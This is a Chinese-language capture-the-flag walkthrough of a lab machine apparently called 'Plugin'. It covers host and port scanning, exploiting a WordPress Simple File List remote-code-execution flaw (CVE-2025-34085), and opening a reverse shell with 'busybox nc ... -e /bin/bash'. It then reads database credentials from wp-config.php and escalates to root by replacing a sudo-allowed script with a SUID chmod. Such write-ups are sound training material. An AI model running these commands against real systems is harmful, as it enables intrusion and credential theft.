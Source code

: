# **一、信息收集**

## **1. 主机发现**

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中扫描存活主机，确定目标。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.131 08:00:27:5f:2c:34       PCS Systemtechnik GmbH
...
```

命令输出确认了目标主机的IP地址为 `192.168.205.131`。

## **2. 端口扫描**

使用 `nmap` 对目标主机进行全端口扫描，以识别对外开放的服务。

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.131
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果表明，目标主机开放了 **22 (SSH)** 和 **80 (HTTP)** 端口。Web服务是主要的攻击入口。

## **3. Web信息探测**

访问 `http://192.168.205.131` 是一个 Apache 的默认页面。使用 `gobuster` 进行目录爆破，发现了多个PHP页面。

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.205.131 -w ... -x php,txt,html
...
/index.php            (Status: 302) [Size: 0] [--> home.php]
/home.php             (Status: 200) [Size: 1954]
/about.php            (Status: 200) [Size: 1286]
/feedback.php         (Status: 200) [Size: 2189]
...
```

在浏览发现的页面时，`feedback.php` 的提交功能弹窗泄露了一个关键信息：`反馈已提交！服务端处理使用域名: plugin.dsz`。我们将此域名添加到本地 `/etc/hosts` 文件中。

配置好 `hosts` 后，使用 `nuclei` 对 `http://plugin.dsz` 进行自动化漏洞扫描，发现一个严重漏洞。

```bash
┌──(kali㉿kali)-[~]
└─$ nuclei -u http://plugin.dsz
...
[CVE-2025-34085] [http] [critical] http://plugin.dsz/wp-content/uploads/simple-file-list/aighbdh.php
[wordpress-rce-simplefilelist] [http] [critical] http://plugin.dsz/wp-content/uploads/simple-file-list/egafhad.php
...
```

扫描结果直指 **WordPress** 的 **Simple File List** 插件存在远程代码执行（RCE）漏洞 (CVE-2025-34085)。

# **二、Web渗透与立足点**

## **1. RCE漏洞利用**

根据 `nuclei` 的扫描结果，我们找到了针对 `CVE-2025-34085` 的公开漏洞利用脚本。 该漏洞允许未经身份验证的攻击者上传一个伪装成图片的文件，然后将其重命名为 `.php` 文件，从而执行任意代码。

首先，使用漏洞利用脚本执行 `id` 命令，验证漏洞是否存在且可利用。

```bash
┌──(kali㉿kali)-[~/CVE-2025-34085]
└─$ python3 CVE-2025-34085.py -u http://plugin.dsz --cmd "id"
...
[DEBUG] Command Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] http://plugin.dsz | http://plugin.dsz/wp-content/uploads/simple-file-list/cttlu7x9.php
```

命令成功返回 `www-data` 用户信息，确认RCE漏洞可以利用。

## **2. Getshell**

接下来，利用该漏洞获得一个反弹shell。首先在攻击机上设置 `netcat` 监听 `8888` 端口。

然后，执行以下命令，让目标主机反弹一个 `/bin/bash` shell。

```bash
┌──(kali㉿kali)-[~/CVE-2025-34085]
└─$ python3 CVE-2025-34085.py -u http://plugin.dsz --cmd "busybox nc 192.168.205.128 8888 -e /bin/bash"
```

攻击机成功接收到反弹shell，获得了 `www-data` 用户的访问权限。

---

# **三、权限提升**

## **1. 横向移动 (www-data -> yi)**

在 `www-data` shell中，我们首先寻找数据库配置文件。在Web根目录 `/var/www/plugin.dsz/` 中，找到了 `wp-config.php` 文件。

```bash
www-data@Plugin:/var/www/plugin.dsz$ cat wp-config.php
...
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'password' );
...
```

利用泄露的数据库凭据连接到本地MariaDB数据库，并查询 `wp_users` 表。

```sql
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+ ... +---------------------+--------------+
| ID | user_login | user_pass                          | user_nicename | ... | user_activation_key | display_name |
+----+------------+------------------------------------+---------------+ ... +---------------------+--------------+
|  1 | root       | $wp$2y$10$...                       | root          | ... |                     | root         |
|  2 | yi         | b00b6ce41fbb3854fbfddcb71b5aa15d     | yi            | ... | eWl5aXlp            | eWl5aXlp     |
+----+------------+------------------------------------+---------------+ ... +---------------------+--------------+
```

我们发现了两个用户：`root` 和 `yi`。在 `yi` 用户的数据行中，`user_activation_key` 和 `display_name` 字段的值均为 `eWl5aXlp`。猜测这为`yi`用户密码。

使用 `su yi` 和密码 `eWl5aXlp`，成功切换到 `yi` 用户。

## **2. 提权至root (yi -> root)**

切换到 `yi` 用户后，执行 `sudo -l` 来检查其 `sudo` 权限。

```bash
yi@Plugin:~$ sudo -l
...
User yi may run the following commands on Plugin:
    (ALL) NOPASSWD: /bin/bash /home/yi/yiyi.sh
```

结果显示，`yi` 用户可以无需密码以root权限执行 `/home/yi/yiyi.sh` 脚本。由于 `yi` 用户对其家目录有写权限，我们可以轻易地替换掉这个脚本。

**提权步骤**:

1. 备份并替换原始脚本，写入一个可以为 `/bin/bash` 添加SUID权限的命令。

   ```bash
   yi@Plugin:~$ mv /home/yi/yiyi.sh /home/yi/1
   yi@Plugin:~$ echo 'chmod +s /bin/bash' > /home/yi/yiyi.sh
   ```

2. 以 `sudo` 权限执行被篡改后的脚本。

   ```bash
   yi@Plugin:~$ sudo /bin/bash /home/yi/yiyi.sh
   ```

3. 执行 `bash -p`。`-p` 参数使得 `bash` 在启动时不会放弃root权限，从而获得一个有效的root shell。

   ```bash
   yi@Plugin:~$ bash -p
   bash-5.0# id
   uid=1000(yi) gid=1000(yi) euid=0(root) egid=0(root) groups=0(root),1000(yi)
   ```

   `id` 命令的输出确认我们已成功获得root权限。

---

# **四、获取Flag**

现在我们拥有了root权限，可以读取系统上的所有敏感文件。

```bash
bash-5.0# cat /home/yi/user.txt
flag{user-058e8f474511327e5aeed4efa793033a}

bash-5.0# cat /root/root.txt
flag{root-ab9d82b9ae7d7d7256a95efe3447ec78}
```

所有Flag均已找到，渗透测试完成。